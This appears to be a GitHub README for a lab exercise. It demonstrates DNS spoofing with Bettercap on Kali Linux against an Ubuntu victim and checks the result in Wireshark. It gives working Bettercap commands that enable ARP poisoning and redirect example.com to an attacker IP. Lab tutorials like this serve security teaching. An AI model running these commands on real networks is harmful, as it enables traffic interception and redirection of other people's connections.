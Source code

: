 # DNS Spoofing with Bettercap and Wireshark

## Project Overview
This project demonstrates DNS spoofing using Bettercap on Kali Linux and monitoring the traffic with Wireshark. The goal is to intercept and modify DNS responses, redirecting traffic to a different IP address.

## Tools Used
- **Bettercap**: A powerful tool for network attacks like ARP poisoning and DNS spoofing.
- **Wireshark**: A network protocol analyzer to capture and monitor network traffic.
- **Kali Linux**: A penetration testing and security auditing Linux distribution.

## Prerequisites
- Kali Linux (installed with Bettercap and Wireshark)
- Ubuntu machine (as a victim machine)
- Network setup with both machines connected to the same network

## Step-by-Step Guide

### 1. Setting up Bettercap for DNS Spoofing

- Launch Bettercap in a terminal:
  ```bash
  sudo bettercap -iface eth0
# dns-spoofing-with-wireshark

Demonstrating DNS spoofing using Bettercap and monitoring with Wireshark
Enable ARP spoofing and DNS spoofing:
arp.spoof on
set dns.spoof.domains example.com
set dns.spoof.address 172.18.245.18
dns.spoof on
### 2. Setting up Wireshark to Capture DNS Traffic

- Open a second terminal and launch Wireshark
- Select the appropriate network interface (e.g., eth0 or wlan0).
- Apply the filter dns to capture only DNS packets.
### 3. Pinging example.com from the Victim Machine

- On your Ubuntu victim machine, ping the domain:

bash
Copy
Edit
ping example.com
-Observe in Wireshark how the DNS query for example.com resolves to the IP address of your Kali machine (DNS spoofing in action).
### 4. Verifying the Attack
In Wireshark, look for DNS responses and verify that example.com resolves to the spoofed IP address.
### 5. Conclusion
This demonstrates how DNS spoofing can redirect traffic to an attacker-controlled IP. Wireshark helps visualize the traffic, making it easier to undersatnd teh attack

